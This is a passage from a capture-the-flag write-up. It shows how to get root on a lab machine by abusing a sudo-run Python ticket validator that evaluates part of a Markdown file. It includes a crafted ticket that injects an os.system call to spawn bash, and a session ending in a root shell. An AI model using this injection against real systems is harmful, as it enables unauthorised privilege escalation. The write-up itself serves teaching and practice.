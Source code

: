 ```py
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

First the script calls `load_file` which is defined earlier. All this does is check if the file ends with `.md` and exits if it doesn't. Next `evalute` is called which has multiple checks in it. Basically it goes through it line by line and has a new check for each line. After going through the code we can break down how our file needs to look.
-	First line starts with `# Skytrain Inc`
-	Second line starts with `## Ticket to` and needs another space followed by something arbitratry.
-	Third line starts with `__Ticket Code:__`
-	Fourth line has to start with `**` there also has to be a `+` in it, where the part before it get's parsed by `int()` to a number that results in 4 if taken mod 7. The rest of this line needs to be that code which we want to get evaluated.

A possible way to achive root from here is to just import os with the `__import__()` function and then call bash with `system`.

`root.md`
```
development@bountyhunter:~$ cat root.md
# Skytrain Inc
## Ticket to what
__Ticket Code:__
**4+__import__('os').system("/bin/bash")
```

With everything prepared, running the script with sudo and specifying our file, we dropp into a root shell and are able to read the flag.

```
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/home/development/root.md
Destination: what
root@bountyhunter:/home/development# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhunter:/home/development# wc -c /root/root.txt
33 /root/root.txt
```